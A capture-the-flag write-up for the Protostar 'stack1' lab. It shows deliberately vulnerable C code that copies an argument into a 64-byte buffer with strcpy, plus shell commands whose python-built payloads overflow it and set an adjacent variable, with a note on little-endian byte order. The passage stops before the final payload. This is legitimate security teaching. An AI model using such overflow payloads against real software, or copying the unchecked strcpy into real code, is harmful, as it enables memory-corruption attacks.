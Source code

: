 ```

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### Write-up

This challenge is very much the same as the previous, only this time we need to
set the value of ```modified``` to a specific value, and of course, this time
input is passed via a program parameter.

Last time, we overflowed 'A' into modified, making the value 0x000041. This time
let's try overflowing 4 values; 0x61, 0x62, 0x63, and 0x64.

```
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' * 64 + '\x61\x62\x63\x64'")
Try again, you got 0x64636261
```

> Note:
> In python we can specify a byte value in a string with '\x' followed by the hex
> value we want.

The value for ```modified``` this time was 0x64636261 when we entered
0x61626364. This is because the machine is **little endian** meaning you store
the *least* *significant* byte in the smallest address. This can be visualized
by this challenge as follows:

```sh
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' * 64 + '\x64'")
Try again, you got 0x00000064
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' * 64 + '\x64\x63'")
Try again, you got 0x00006364
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62'")
Try again, you got 0x00626364
```

This means we simply need to reorder the way input is given:
